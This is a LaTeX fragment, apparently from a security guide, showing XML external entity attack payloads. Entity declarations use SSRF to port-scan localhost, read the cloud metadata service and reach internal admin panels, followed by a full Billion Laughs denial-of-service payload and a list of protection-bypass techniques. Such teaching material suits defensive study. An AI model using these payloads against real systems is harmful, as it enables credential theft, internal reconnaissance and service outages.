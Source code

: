 \documentclass{article}
\begin{document}
\subsection{SSRF and Internal Network Discovery}
\begin{lstlisting}[language=XML, caption=SSRF via XXE]
<!-- Port scanning -->
<!ENTITY xxe SYSTEM "http://127.0.0.1:22">

<!-- Access internal services -->
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/">

<!-- Read internal admin panels -->
<!ENTITY xxe SYSTEM "http://internal-admin.local/settings">
\end{lstlisting}

\subsection{Denial of Service - Billion Laughs Attack}
\begin{lstlisting}[language=XML, caption=Recursive Entity Expansion DoS]
<?xml version="1.0"?>
<!DOCTYPE lolz [
    <!ENTITY lol "lol">
    <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
    <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
    <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
    <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
    <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
    <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
    <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
    <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
    <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
\end{lstlisting}

\subsection{Bypassing Protections}

\begin{warningbox}
Common XXE bypass techniques:
\begin{itemize}
    \item Using UTF-16/UTF-32 encoding
    \item Using parameter entities instead of general entities
    \item Using XInclude as alternative to DTD
    \item Using SVG upload vectors
    \item Using SOAP/XML-RPC endpoints
\end{itemize}
\end{warningbox}
\end{document}
